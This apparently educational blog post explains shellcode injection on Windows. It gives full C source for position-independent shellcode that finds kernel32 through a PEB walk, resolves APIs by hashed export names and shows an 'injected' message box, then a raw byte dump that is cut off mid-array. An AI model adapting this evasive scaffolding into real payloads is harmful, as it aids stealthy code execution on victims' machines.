










Overview:
In this post, we will go through a sample about
shellcode injection technique, which I
referenced from a
source.
The goal is to execute code in another process's memory
Shellcode injection is a technique that executes code inside process's memory. Explained by the following picture

First, the Injector attaches to target process via its Process ID. Then its requests to allocate a memory region in Target process with appropriate privileges. Next step The Injector writes the buffer into that memory. Finally, it creates a thread to execute injected code.
Can not wait any longer, in this section we will
generate shellcode. But before going into detail, we need to decide the purpose of
shellcode
In this sample, the shellcode will simply display a message box as
an alert. And also demonstrate the
PEB walk
technique from the previous post to dynamically resolve and invoke
Windows APIs.
I will break down step by step, demonstrated with C as below.
// peb walk
PPEB peb = (PPEB)__readgsqword(0x60);
PPEB_LDR_DATA ldr = peb->Ldr;
PLIST_ENTRY module_list = &ldr->InMemoryOrderModuleList;
PLIST_ENTRY current_module = module_list->Flink;
while (current_module != module_list) {
PLDR_DATA_TABLE_ENTRY_CUSTOM module_entry = CONTAINING_RECORD(current_module, LDR_DATA_TABLE_ENTRY_CUSTOM, InMemoryOrderLinks);
if (module_entry->BaseDllName.Buffer != NULL) {
uint32_t h_module_name = 0;
hash_w(module_entry->BaseDllName.Buffer, h_module_name);
if (h_module_name == h_kernel32_name)
{
kernel32_address = module_entry->DllBase; // get the kernel32.dll from here
break;
}
}
current_module = current_module->Flink;
}Now we already have the kernel32.dll address. In this code you may see the hash_w which is used to hash the stack string. After that compare to hashed module name with the same method to find the module we need.
#define ror(v) (((v) >> 13) | ((v) << 19)) \
#define hash_w(input, output) \
do { \
const wchar_t* api_name = (input); \
(output) = 0; \
while (*api_name) { \
wchar_t s = *api_name; \
if (s >= L'a' && s <= L'z') { \
s -= 0x20; \
} \
(output) = ror(output); \
(output) += (uint32_t)s; \
api_name++; \
} \
} while (0)The Stack string is a technique to create a string on the stack, it is used to store a string directly in the .text section. This is because shellcode is not dependent on the target's memory address. (After I tried many times and found that it crashed when store string in .rdata.)
wchar_t kernel32_name[] = { L'k',L'e',L'r',L'n',L'e',L'l',L'3',L'2',L'.',L'd',L'l',L'l',0}; // kernel32.dll
char user32_name[] = { 'u','s','e','r','3','2','.','d','l','l',0 }; // user32.dll
char loadlib_name[] = { 'L','o','a','d','L','i','b','r','a','r','y','A',0 }; // LoadLibraryA
char msgbox_name[] = { 'M','e','s','s','a','g','e','B','o','x','A',0 }; // MessageBoxA
char getproc_name[] = { 'G','e','t','P','r','o','c','A','d','d','r','e','s','s',0 }; // GetProcAddress
char text[] = { 'i','n','j','e','c','t','e','d' ,0}; // injected
Next step to get the
GetProcAddress address. Simply
go from
dos_header -> nt_header -> optional_header ->
export_directory
if (!kernel32_address) {
return;
}
base_address = (LPBYTE)kernel32_address;
if (!base_address) {
return;
}
dos_header_pointer = (PIMAGE_DOS_HEADER)(base_address);
if (!dos_header_pointer || dos_header_pointer->e_magic != IMAGE_DOS_SIGNATURE) {
return;
}
if (dos_header_pointer->e_lfanew == 0) {
return;
}
nt_header_pointer = (PIMAGE_NT_HEADERS)(base_address + dos_header_pointer->e_lfanew);
if (nt_header_pointer == NULL || nt_header_pointer->Signature != IMAGE_NT_SIGNATURE) {
return;
}
optional_header_pointer = &nt_header_pointer->OptionalHeader;
export_rva = optional_header_pointer->DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress;
export_directory_pointer = (PIMAGE_EXPORT_DIRECTORY)(base_address + export_rva);
number_of_names = export_directory_pointer->NumberOfNames;
address_of_func_name_pointer = (PDWORD)(export_directory_pointer->AddressOfNames + base_address);
address_of_func_pointer = (PDWORD)(export_directory_pointer->AddressOfFunctions + base_address);
address_of_name_ordinal_pointer = (PWORD)(export_directory_pointer->AddressOfNameOrdinals + base_address);
for (DWORD i = 0; i < number_of_names; i++) {
uint32_t h_function_name;
hash((char*)(address_of_func_name_pointer[i] + base_address), h_function_name);
if (h_function_name==h_gpa) {
function_index = address_of_name_ordinal_pointer[i];
get_proc_address_pointer = (PVOID)(address_of_func_pointer[function_index] + base_address); // pointer to getProcAddress
}
}Last part is to use GetProcAddress to get the LoadLibraryA then load user32.dll and MessageBoxA as well, and we are done
if (!get_proc_address_pointer) return;
func_getProcAddress = (GETPROCADDRESS)get_proc_address_pointer;
if (!func_getProcAddress) return;
load_library_pointer = func_getProcAddress((HMODULE)kernel32_address, loadlib_name);
LOADLIBRARYA func_loadLibraryA = (LOADLIBRARYA)load_library_pointer;
user32_address = func_loadLibraryA(user32_name);
PVOID message_box_pointer = func_getProcAddress((HMODULE)user32_address, msgbox_name);
MESSAGEBOXA func_messageBoxA = (MESSAGEBOXA)message_box_pointer;
func_messageBoxA(NULL,text,"", MB_OK);Finally, build this in Release and configure some settings in MSVC to make the execute file as small as posible. After these steps let's check with the CFF Explore also

From the image above, we can see that our shellcode is stored directly in .text section. And also we can see some string in ASCII because we stored it in stack string before.
Last 3 characters 5B 5D C3 is function epilogue so we know this could be the end of shellcode.
Below is full source code
#include <Windows.h>
#include <winternl.h>
#include <stdio.h>
#include <stdint.h>
#define ror(v) (((v) >> 13) | ((v) << 19)) \
#define hash_w(input, output) \
do { \
const wchar_t* api_name = (input); \
(output) = 0; \
while (*api_name) { \
wchar_t s = *api_name; \
if (s >= L'a' && s <= L'z') { \
s -= 0x20; \
} \
(output) = ror(output); \
(output) += (uint32_t)s; \
api_name++; \
} \
} while (0)
#define hash(input, output) \
do { \
const char* api_name = (input); \
(output) = 0; \
while (*api_name) { \
char s = *api_name; \
if (s >= L'a' && s <= L'z') { \
s -= 0x20; \
} \
(output) = ror(output); \
(output) += (uint32_t)s; \
api_name++; \
} \
} while (0)
void entry() {
typedef struct LDR_DATA_TABLE_ENTRY_CUSTOM {
PVOID Reserved1[2];
LIST_ENTRY InMemoryOrderLinks;
PVOID Reserved2[2];
PVOID DllBase;
PVOID Reserved3[2];
UNICODE_STRING FullDllName;
UNICODE_STRING BaseDllName;
PVOID Reserved5[3];
#pragma warning(push)
#pragma warning(disable: 4201)
union {
ULONG CheckSum;
PVOID Reserved6;
} DUMMYUNIONNAME;
#pragma warning(pop)
ULONG TimeDateStamp;
} LDR_DATA_TABLE_ENTRY_CUSTOM, * PLDR_DATA_TABLE_ENTRY_CUSTOM;
wchar_t kernel32_name[] = { L'k',L'e',L'r',L'n',L'e',L'l',L'3',L'2',L'.',L'd',L'l',L'l',0}; // kernel32.dll
char user32_name[] = { 'u','s','e','r','3','2','.','d','l','l',0 }; // user32.dll
char loadlib_name[] = { 'L','o','a','d','L','i','b','r','a','r','y','A',0 }; // LoadLibraryA
char msgbox_name[] = { 'M','e','s','s','a','g','e','B','o','x','A',0 }; // MessageBoxA
char getproc_name[] = { 'G','e','t','P','r','o','c','A','d','d','r','e','s','s',0 }; // GetProcAddress
char text[] = { 'i','n','j','e','c','t','e','d' ,0}; // injected
uint32_t h_kernel32_name;
uint32_t h_gpa;
hash(getproc_name, h_gpa);
hash_w(kernel32_name, h_kernel32_name);
PVOID kernel32_address = NULL;
PVOID user32_address = NULL;
LPBYTE base_address = NULL;
PIMAGE_DOS_HEADER dos_header_pointer = NULL;
PIMAGE_NT_HEADERS nt_header_pointer = NULL;
PIMAGE_OPTIONAL_HEADER optional_header_pointer = NULL;
PIMAGE_EXPORT_DIRECTORY export_directory_pointer = NULL;
DWORD export_rva = 0;
DWORD number_of_names = 0;
PDWORD address_of_func_name_pointer = NULL;
PDWORD address_of_func_pointer = NULL;
PWORD address_of_name_ordinal_pointer = NULL;
PVOID get_proc_address_pointer = NULL;
WORD function_index = 0;
typedef FARPROC (WINAPI *GETPROCADDRESS)(HMODULE, LPCSTR);
typedef HMODULE(WINAPI* LOADLIBRARYA)(LPCSTR);
typedef int (WINAPI* MESSAGEBOXA)(
_In_opt_ HWND hWnd,
_In_opt_ LPCSTR lpText,
_In_opt_ LPCSTR lpCaption,
_In_ UINT uType
);
GETPROCADDRESS func_getProcAddress = NULL;
PVOID load_library_pointer = NULL;
// peb walk
PPEB peb = (PPEB)__readgsqword(0x60);
PPEB_LDR_DATA ldr = peb->Ldr;
PLIST_ENTRY module_list = &ldr->InMemoryOrderModuleList;
PLIST_ENTRY current_module = module_list->Flink;
while (current_module != module_list) {
PLDR_DATA_TABLE_ENTRY_CUSTOM module_entry = CONTAINING_RECORD(current_module, LDR_DATA_TABLE_ENTRY_CUSTOM, InMemoryOrderLinks);
if (module_entry->BaseDllName.Buffer != NULL) {
uint32_t h_module_name = 0;
hash_w(module_entry->BaseDllName.Buffer, h_module_name);
if (h_module_name == h_kernel32_name)
{
kernel32_address = module_entry->DllBase; // get the kernel32.dll from here
break;
}
}
current_module = current_module->Flink;
}
// parsing pe header
if (!kernel32_address) {
return;
}
base_address = (LPBYTE)kernel32_address;
if (!base_address) {
return;
}
dos_header_pointer = (PIMAGE_DOS_HEADER)(base_address);
if (!dos_header_pointer || dos_header_pointer->e_magic != IMAGE_DOS_SIGNATURE) {
return;
}
if (dos_header_pointer->e_lfanew == 0) {
return;
}
nt_header_pointer = (PIMAGE_NT_HEADERS)(base_address + dos_header_pointer->e_lfanew);
if (nt_header_pointer == NULL || nt_header_pointer->Signature != IMAGE_NT_SIGNATURE) {
return;
}
optional_header_pointer = &nt_header_pointer->OptionalHeader;
export_rva = optional_header_pointer->DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress;
export_directory_pointer = (PIMAGE_EXPORT_DIRECTORY)(base_address + export_rva);
number_of_names = export_directory_pointer->NumberOfNames;
address_of_func_name_pointer = (PDWORD)(export_directory_pointer->AddressOfNames + base_address);
address_of_func_pointer = (PDWORD)(export_directory_pointer->AddressOfFunctions + base_address);
address_of_name_ordinal_pointer = (PWORD)(export_directory_pointer->AddressOfNameOrdinals + base_address);
for (DWORD i = 0; i < number_of_names; i++) {
uint32_t h_function_name;
hash((char*)(address_of_func_name_pointer[i] + base_address), h_function_name);
if (h_function_name==h_gpa) {
function_index = address_of_name_ordinal_pointer[i];
get_proc_address_pointer = (PVOID)(address_of_func_pointer[function_index] + base_address); // pointer to getProcAddress
}
}
if (!get_proc_address_pointer) return;
func_getProcAddress = (GETPROCADDRESS)get_proc_address_pointer;
if (!func_getProcAddress) return;
load_library_pointer = func_getProcAddress((HMODULE)kernel32_address, loadlib_name);
LOADLIBRARYA func_loadLibraryA = (LOADLIBRARYA)load_library_pointer;
user32_address = func_loadLibraryA(user32_name);
PVOID message_box_pointer = func_getProcAddress((HMODULE)user32_address, msgbox_name);
MESSAGEBOXA func_messageBoxA = (MESSAGEBOXA)message_box_pointer;
func_messageBoxA(NULL,text,"", MB_OK);
}Alright then, let's make this code turn into "shellcode format". Demonstrated step by step as following.
First dump the .text section to .bin

Next open it with HxD - Hex editor. Select and copy as C.

Then we have the shellcode.
unsigned char rawData[772] = {
0x40, 0x55, 0x53, 0x48, 0x8D, 0x6C, 0x24, 0xB1, 0x48, 0x81, 0xEC, 0xA8,
0x00, 0x00, 0x00, 0x33, 0xC0, 0xC7, 0x45, 0x17, 0x6B, 0x00, 0x65, 0x00,
0x66, 0x89, 0x45, 0x2F, 0x4C, 0x8D, 0x4D, 0x07, 0x88, 0x45, 0xE1, 0x33,
0xDB, 0x88, 0x45, 0x03, 0xBA, 0x6B, 0x00, 0x00, 0x00, 0x88, 0x45, 0x15,
0xB1, 0x47, 0x88, 0x45, 0xCF, 0xC7, 0x45, 0x1B, 0x72, 0x00, 0x6E, 0x00,
0xC7, 0x45, 0x1F, 0x65, 0x00, 0x6C, 0x00, 0xC7, 0x45, 0x23, 0x33, 0x00,
0x32, 0x00, 0xC7, 0x45, 0x27, 0x2E, 0x00, 0x64, 0x00, 0xC7, 0x45, 0x2B,
0x6C, 0x00, 0x6C, 0x00, 0xC7, 0x45, 0xD7, 0x75, 0x73, 0x65, 0x72, 0xC7,
0x45, 0xDB, 0x33, 0x32, 0x2E, 0x64, 0x66, 0xC7, 0x45, 0xDF, 0x6C, 0x6C,
0xC7, 0x45, 0xF7, 0x4C, 0x6F, 0x61, 0x64, 0xC7, 0x45, 0xFB, 0x4C, 0x69,
0x62, 0x72, 0xC7, 0x45, 0xFF, 0x61, 0x72, 0x79, 0x41, 0xC7, 0x45, 0xE7,
0x4D, 0x65, 0x73, 0x73, 0xC7, 0x45, 0xEB, 0x61, 0x67, 0x65, 0x42, 0xC7,
0x45, 0xEF, 0x6F, 0x78, 0x41, 0x00, 0xC7, 0x45, 0x07, 0x47, 0x65, 0x74,
0x50, 0xC7, 0x45, 0x0B, 0x72, 0x6F, 0x63, 0x41, 0xC7, 0x45, 0x0F, 0x64,
0x64, 0x72, 0x65, 0x66, 0xC7, 0x45, 0x13, 0x73, 0x73, 0xC7, 0x45, 0xC7,
0x69, 0x6E, 0x6A, 0x65, 0xC7, 0x45, 0xCB, 0x63, 0x74, 0x65, 0x64, 0x90,
0x80, 0xF9, 0x61, 0x7C, 0x13, 0x8D, 0x41, 0xE0, 0x80, 0xF9, 0x7A, 0x44,
0x0F, 0xB6, 0xC0, 0x0F, 0xB6, 0xC1, 0x44, 0x0F, 0x4F, 0xC0, 0xEB, 0x04,
0x44, 0x0F, 0xB6, 0xC1, 0x41, 0x0F, 0xB6, 0x49, 0x01, 0x49, 0xFF, 0xC1,
0xC1, 0xCB, 0x0D, 0x41, 0x0F, 0xBE, 0xC0, 0x03, 0xD8, 0x84, 0xC9, 0x75,
0xCF, 0x48, 0x8D, 0x4D, 0x17, 0x45, 0x33, 0xC9, 0x66, 0x83, 0xFA, 0x61,
0x72, 0x0D, 0x66, 0x83, 0xFA, 0x7A, 0x8D, 0x42, 0xE0, 0x66, 0x0F, 0x47,
0xC2, 0xEB, 0x03, 0x0F, 0xB7, 0xC2, 0x48, 0x83, 0xC1, 0x02, 0x41, 0xC1,
0xC9, 0x0D, 0x0F, 0xB7, 0xC0, 0x44, 0x03, 0xC8, 0x0F, 0xB7, 0x01, 0x0F,
0xB7, 0xD0, 0x66, 0x85, 0xC0, 0x75, 0xD1, 0x65, 0x48, 0x8B, 0x04, 0x25,
0x60, 0x00, 0x00, 0x00, 0x4C, 0x8B, 0x58, 0x18, 0x49, 0x83, 0xC3, 0x20,
0x4D, 0x8B, 0x13, 0x4D, 0x3B, 0xD3, 0x0F, 0x84, 0xB6, 0x01, 0x00, 0x00,
0x4D, 0x8B, 0x42, 0x50, 0x4D, 0x85, 0xC0, 0x74, 0x3B, 0x41, 0x0F, 0xB7,
0x00, 0x33, 0xD2, 0x66, 0x85, 0xC0, 0x74, 0x2B, 0x66, 0x83, 0xF8, 0x61,
0x72, 0x0D, 0x66, 0x83, 0xF8, 0x7A, 0x8D, 0x48, 0xE0, 0x66, 0x0F, 0x47,
0xC8, 0xEB, 0x03, 0x0F, 0xB7, 0xC8, 0x49, 0x83, 0xC0, 0x02, 0xC1, 0xCA,
0x0D, 0x0F, 0xB7, 0xC1, 0x03, 0xD0, 0x41, 0x0F, 0xB7, 0x00, 0x66, 0x85,
0xC0, 0x75, 0xD5, 0x41, 0x3B, 0xD1, 0x74, 0x12, 0x4D, 0x8B, 0x12, 0x4D,
0x3B, 0xD3, 0x75, 0xB4, 0x48, 0x81, 0xC4, 0xA8, 0x00, 0x00, 0x00, 0x5B,
0x5D, 0xC3, 0x4D, 0x8B, 0x5A, 0x20, 0x4D, 0x85, 0xDB, 0x0F, 0x84, 0x53,
0x01, 0x00, 0x00, 0xB8, 0x4D, 0x5A, 0x00, 0x00, 0x66, 0x41, 0x39, 0x03,
0x0F, 0x85, 0x44, 0x01, 0x00, 0x00, 0x49, 0x63, 0x43, 0x3C, 0x85, 0xC0,
0x0F, 0x84, 0x38, 0x01, 0x00, 0x00, 0x48, 0x8B, 0xC8, 0x49, 0x03, 0xCB,
0x0F, 0x84, 0x2C, 0x01, 0x00, 0x00, 0x81, 0x39, 0x50, 0x45, 0x00, 0x00,
0x0F, 0x85, 0x20, 0x01, 0x00, 0x00, 0x8B, 0x81, 0x88, 0x00, 0x00, 0x00,
0x45, 0x33, 0xD2, 0x48, 0x89, 0xBC, 0x24, 0xC8, 0x00, 0x00, 0x00, 0x33,
0xFF, 0x4C, 0x89, 0xA4, 0x24, 0xD0, 0x00, 0x00, 0x00, 0x4C, 0x89, 0xAC,
0x24, 0xA0, 0x00, 0x00, 0x00, 0x46, 0x8B, 0x6C, 0x18, 0x20, 0x46, 0x8B,
0x64, 0x18, 0x24, 0x4D, 0x03, 0xEB, 0x4C, 0x89, 0xB4, 0x24, 0x98, 0x00,
0x00, 0x00, 0x4D, 0x03, 0xE3, 0x46, 0x8B, 0x74, 0x18, 0x18, 0x4C, 0x89,
0xBC, 0x24, 0x90, 0x00, 0x00, 0x00, 0x46, 0x8B, 0x7C, 0x18, 0x1C, 0x4D,
0x03, 0xFB, 0x45, 0x85, 0xF6, 0x0F, 0x84, 0x9F, 0x00, 0x00, 0x00, 0x48,
0x89, 0xB4, 0x24, 0xC0, 0x00, 0x00, 0x00, 0x0F, 0x1F, 0x44, 0x00, 0x00,
0x47, 0x8B, 0x4C, 0x95, 0x00, 0x45, 0x33, 0xC0, 0x4D, 0x03, 0xCB, 0x41,
0x0F, 0xB6, 0x09, 0x84, 0xC9, 0x74, 0x2F, 0x80, 0xF9, 0x61, 0x7C, 0x11,
0x8D, 0x41, 0xE0, 0x80, 0xF9, 0x7A, 0x0F, 0xB6, 0xD0, 0x0F, 0xB6, 0xC1,
0x0F, 0x4F, 0xD0, 0xEB, 0x03, 0x0F, 0xB6, 0xD1, 0x41, 0x0F, 0xB6, 0x49,
0x01, 0x49, 0xFF, 0xC1, 0x41, 0xC1, 0xC8, 0x0D, 0x0F, 0xBE, 0xC2, 0x44,
0x03, 0xC0, 0x84, 0xC9, 0x75, 0xD1, 0x44, 0x3B, 0xC3, 0x75, 0x0C, 0x43,
